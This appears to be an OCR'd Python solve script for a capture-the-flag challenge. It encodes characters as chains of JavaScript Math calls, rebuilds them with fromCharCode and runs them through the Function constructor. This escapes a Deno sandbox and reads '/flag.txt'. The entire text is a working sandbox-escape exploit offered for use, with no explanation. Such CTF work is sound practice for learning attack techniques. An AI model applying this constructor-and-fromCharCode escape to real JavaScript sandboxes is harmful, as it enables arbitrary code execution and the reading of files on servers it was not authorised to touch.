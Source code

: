 ```python
    js_res = ''

    for i in range(len(res)):
        if i ==0:
            js_res = res[i]
            continue
        pattern = r"Math\.exp\((\d+)\)"
        match = re.search(pattern, res[i])
        if match:
            extracted_number = match.group(1)
            print(res[i])
            js_res = res[i].replace(extracted_number, js_res)
            print(js_res)
    return js_res


def convert_to_array(res):
    array_res = []
    global basic_tansform
    res.reverse()
    pattern = r"Math\.exp\((\d+)\)"
    match = re.search(pattern, res[0])
    if match:
        extracted_number = match.group(1)
        array_res.append(basic_tansform[int(extracted_number)][0])
        array_res.append("Math.exp")
        array_res.append("Math.log2")
        if res[0].startswith('Math.ceil'):
            array_res.append("Math.ceil")
        else:
            array_res.append("Math.floor")
    times = len(res)-1

    for i in range(times):
        array_res.append("Math.exp")
        array_res.append("Math.log2")
        if res[i+1].startswith('Math.ceil'):
            array_res.append("Math.ceil")
        else:
            array_res.append("Math.floor")
    array_res.append("Math.sin.name.constructor.fromCharCode")
    return array_res


a = []
res = convert_the_target_num(150, a)
# print(res)
each_res = convert_to_array(res)

payload = "return Deno.readTextFileSync('/flag.txt')"
starts = ["Math.seeds.pop"] * 5

for i in payload:
    starts += convert_to_array(convert_the_target_num(ord(i), []))
    starts += ["Math.seeds.push"]

starts += ["Math.random.name.toLowerCase", "Math.seeds.join", "Math.abs.constructor", "Math.seeds.map"]

print(json.dumps(starts))

# print(convert_to_js(res))

```